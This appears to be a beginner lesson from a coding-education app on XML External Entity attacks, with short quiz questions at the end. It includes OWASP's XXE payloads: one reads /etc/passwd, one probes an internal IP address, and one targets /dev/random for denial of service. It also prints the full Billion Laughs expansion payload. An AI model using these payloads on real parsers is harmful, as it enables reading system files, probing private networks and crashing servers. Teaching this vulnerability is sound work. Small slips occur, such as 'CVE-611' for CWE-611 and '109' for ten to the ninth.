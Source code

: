```yaml
---
author: lizTheDeveloper

levels:

  - beginner

  - basic

  - medium

aspects:

  - introduction

  - workout

type: normal

category: hack


standards:
  security.xxe.0: 10

links:
  - '[OWASP Top Ten](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)'
  - '[Billion Laughs Attack](https://en.wikipedia.org/wiki/Billion_laughs_attack)'
  - '[Security Briefs - XML Denial of Service Attacks and Defenses](https://msdn.microsoft.com/en-us/magazine/ee335713.aspx)'
  - '[SAML Security XML External Entity Attack](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html)'
  - '[Detecting and exploiting XXE in SAML Interfaces](https://web-in-security.blogspot.com/2014/11/detecting-and-exploiting-xxe-in-saml.html)'
  - '[CVE-611](https://cwe.mitre.org/data/definitions/611.html)'

---
```


# eXternal XML Entities

---
## Content
OWASP describes XXE as Xternal XML Entities, which is a vulnerability vector in XML documents that allows them to embed other documents, including local system files, in XML documents. If these processors run or execute these files with elevated permissions, attackers can inject malicious instructions in their XML files.

These examples from *OWASP's Top Ten* list show how the data can be configured to execute external scripts:

**Scenario #1**: The attacker attempts to extract data from the
server:
```
<?xml version="1.0"
 encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM
 "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

**Scenario #2**: An attacker probes the server's private network by
changing the above ENTITY line to:
```
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```
**Scenario #3**: An attacker attempts a denial-of-service attack by
including a potentially endless file:
```
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```

Here's an example of this attack that was a widespread problem due to it's simplicity, called the **Billion Laughs Attack**:

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1
 "&lol;&lol;&lol;&lol;&lol;
  &lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2
 "&lol1;&lol1;&lol1;&lol1;&lol1;
 &lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3
 "&lol2;&lol2;&lol2;&lol2;&lol2;
 &lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4
 "&lol3;&lol3;&lol3;&lol3;&lol3;
 &lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5
 "&lol4;&lol4;&lol4;&lol4;&lol4;
 &lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6
 "&lol5;&lol5;&lol5;&lol5;&lol5;
 &lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7
 "&lol6;&lol6;&lol6;&lol6;&lol6;
 &lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8
 "&lol7;&lol7;&lol7;&lol7;&lol7;
 &lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9
 "&lol8;&lol8;&lol8;&lol8;&lol8;
 &lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
From Wikipedia:

> When an XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually contain 109 = a billion "lol"s, taking up almost 3 gigabytes of memory.

---
## Practice

An XXE attack affects what components of an application?
???

* XML Processors
* HTTP Endpoints
* Network Firewall
* HTML DOM


---
## Revision

An XXE attack comes from exploiting what?
???

* External Entities
* Unvalidated Input
* Untested Code
* Malformed Requests
